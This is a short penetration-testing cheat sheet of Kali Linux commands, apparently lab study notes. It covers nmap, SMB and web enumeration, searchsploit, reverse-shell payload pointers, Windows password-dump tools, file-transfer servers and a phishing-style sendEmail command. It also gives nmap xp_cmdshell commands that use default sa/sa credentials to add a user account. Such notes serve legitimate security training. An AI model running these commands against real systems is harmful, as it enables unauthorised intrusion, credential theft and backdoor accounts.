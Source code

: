 # Kali command

## Special directory

Most of the resources can be found at /usr/share, include
* /usr/share/wordlist/rockyou.txt
* /usr/share/nmap/scirpts
* /usr/share/exploitdb/....
* /usr/share/windows-binaries

## enumeration

Scanning and time taken

* TCP 1000 port

* TCP all port

* UDP 1000 port
    nmap -sU -v 10.11.1.49
    Time taken 1 minutes

* UDP all port
    nmap -sU -v -p- 10.11.1.49
    Time taken

### nmap and scripts

nmap script are at /usr/share/nmap

Using nmap to find vulns

### website disovery tools

* dirb => dirb http://10.0.0.1

* nikto => nikto -h http://10.0.0.1

### smb discovery tools

* enum4linux

    * enum4linux 10.0.0.1

* smbclient

    * smbclient -L 10.0.0.1
    * smbclient //10.0.0.1/wwwroot -u ...

## Exploit searching

searchsploit and go to /usr/share/exploitdb

### Payload

Best php reverse shell: 
https://github.com/pentestmonkey/php-reverse-shell

### msfvenom

* php reverse shell

* python reverse shell

* war reverse shell

### Windows binaries

* password dump: fgdump => cachedump => pstgdump
* plink
* nc

## File transfer

* python -m SimpleHTTPServer 80

* python -m pyftpdlib -p 21 --write

## Transfer file using nc

Please aware of the version!! I encounter some nc doesnot support -e flag.


## Email

* sendEmail -t receiver@domain.local -f sender@domain.local -xu sender@domain.local -xp password -s 10.11.1.229 -u Urgent report -a ./report.pdf


## MSSQL

* https://nmap.org/nsedoc/scripts/ms-sql-xp-cmdshell.html
```sh
nmap -p 445 --script ms-sql-discover,ms-sql-empty-password,ms-sql-xp-cmdshell <host>
nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=sa,mssql.password=sa,ms-sql-xp-cmdshell.cmd="net user test test /add" <host>
```



## Kali troubleshoot

sudo ifconfig eth0 up
sudo dhclient eth0 <- request smbd to turn on.
